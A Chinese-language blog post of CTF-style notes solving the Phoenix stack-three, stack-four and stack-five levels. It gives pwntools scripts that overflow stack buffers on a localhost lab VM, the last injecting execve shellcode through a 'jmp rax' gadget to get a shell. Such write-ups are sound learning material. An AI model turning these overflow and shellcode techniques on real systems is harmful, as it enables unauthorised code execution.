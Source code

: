```yaml
---
title: "[pwn笔记2]stack-three, stack-four, stack-five(Phoenix)"
urlname: "[pwn笔记2]stack-three, stack-four, stack-five(Phoenix)"
date: March 21, 2023 2:29 PM
tags: [pwn, stack]
---
```

最近又是数模又是开学的，很难受，还是看看远方的~~水~~入门题吧。没有动态基址，还是比较简单的。

（写这段的时候还没想到接下来还有概率论考试，还打了场ctf校赛，所以。。。）

## **stack-three**

覆盖一个即将被调用的函数指针的数据，跟前面差不多。

```
from pwn import *
shell = ssh("user", "localhost", password="user", port=2222)

s = b"a" * 0x40 + p64(0x40069d)
sh = shell.run(b"/opt/phoenix/amd64/stack-three")
sh.recvlines(1)
sh.sendline(s)
print(sh.recvlines(2))

```

## **stack-four**

覆盖栈上的返回地址。

![https://s2.loli.net/2023/02/25/YB5ux4CUSAeowPv.png](https://s2.loli.net/2023/02/25/YB5ux4CUSAeowPv.png)

`0x648-0x5f0=88`

```
from pwn import *
shell = ssh("user", "localhost", password="user", port=2222)

s = b"a" * 88 + p64(0x40061d)
sh = shell.run(b"/opt/phoenix/amd64/stack-four")
sh.recvlines(1)
sh.sendline(s)
print(sh.recvlines(2))
```

## **stack-five**

需要拿到shell。由于栈是可执行的，可以利用gets来把shellcode读进来，覆盖返回地址来执行shellcode。

这个过程看起来非常完美，可是不知道为什么返回到栈上执行两步就会段错误。关掉了aslr，尝试了附加调试和取消gdb环境变量，以消除栈地址的变化，都没有进展。

后来看到了另一个方法：

![Untitled](%5Bpwn%E7%AC%94%E8%AE%B02%5Dstack-three,%20stack-four,%20stack-five(Phoeni%207b5b662947354bf68eff78239c6d2262/Untitled.png)

调用gets之前，s被放入了rax中。所以直接把shellcode放到最前面就会被rax指向。

我们可以用rop，找到一段`jmp rax`，返回到那里，然后下一步就会跳到shellcode了。

```
from pwn import *
shell = ssh("user", "localhost", password="user", port=2222)

total = 136
sc = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
jmp_rax = p64(0x400481)
s = sc+b"a"*(total-len(sc))+jmp_rax

sh = shell.run(b"/opt/phoenix/amd64/stack-five")
sh.recvlines(1)
sh.sendline(s)
sh.interactive()
```

还有一件事，gef可以用以下命令调整context里stack显示的行数

```
gef config context.nb_lines_stack 30
```

这样就不用在虚拟机里再装个peda了（这两个共存很卡）。
